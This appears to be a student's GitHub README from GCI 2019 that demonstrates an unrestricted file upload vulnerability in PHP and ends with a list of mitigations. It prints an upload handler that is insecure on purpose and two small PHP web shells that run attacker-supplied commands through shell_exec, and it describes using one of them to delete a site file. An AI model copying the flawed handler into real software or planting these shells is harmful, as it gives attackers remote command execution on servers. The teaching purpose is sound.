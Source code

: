 # Unrestricted-file-Upload

### What is unrestricted file upload vulnerability?
When an attacker could send a form data POST request with a typical filename or Multipurpose Internet Mail Extensions(MIME) and can cause Arbitrary Code Execution(ACE). 
### What did i do?
I first made the script to upload the file(which by the way is very insecure), here is the code:
```
<?php
$t_file=basename($_FILES['thefile']['name']);
if (move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file)) {
	move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file);
	echo "File '".$t_file."' uploaded successfully";
}else{
	echo "Something went wrong, try agains";
}
?>
```
I made 2 programs each demonstrating an aspect of file upload vulnerability, The first one, "hack.php" is a simple php script with an input, it executes as shell whatever you give as input.
here is the code
```
<?php
$shell=shell_exec('dir C:\\');
if ($_POST['exploit']) {
 $shell=shell_exec($_POST['exploit']);
   echo "<pre>$shell</pre>";
 }
 ?>
```
As you see i used shell exec which can invoke a command via shell and return the result.
Let's first unsecurely upload our file
![](/ìmg/hack2.jpg)<br>
![](/ìmg/hack1.png)<br>
Let's first a simple command like 'dir':
![](/ìmg/hack3.jpg)<br>
here is the output we get:
![](/ìmg/hack4.png)
Then let's execute a nasty command like del which will delete a file, for my case i'm going to delete the "index.php" file which is the main file.
The "index.php" file will be automatically deleted and the website will encounter problems.
This can be very scary as someone might be controlling your computer from within your website itself.<br>
Then i made another script which takes url parameters to execute a command via shell and return the result.<br>
Here is it's code:
```
<?php
echo shell_exec($_GET['shell'])
?>
```
This one is more scary than the first because it doesn't need visible immediate contact to execute itself, when programmers are working on a large code-base with thousands of files this one gets scary pretty fast when you see it's size"only 42 bytes".
### what can i do to make my website more secure?
-Well, use python, i mean seriously, use frameworks such as flask or django which won't just execute a file uploaded to the server but only follow predefined urls
- Scannning incoming urls
- Always use a filter "like getimagesize or pathinfo($file,PATHINFO_EXTENSION)" to check if the uploaded files are really what you want them to be 
- Limit file size, some uploads take a lot of space...(for example a script that builds an uploaded virus with gcc and so on...)
- Only allow authorized and authenticated users to use the feature. 
- Serve fetched files from your application rather than directly via the web server.
- Store files in a non-public accessibly directory if you can.
- Write to the file when you store it to include a header that makes it non-executable.

This is it, Happy coding<br>
### Made by `Shadowblade` during `GCI 2019` Open source
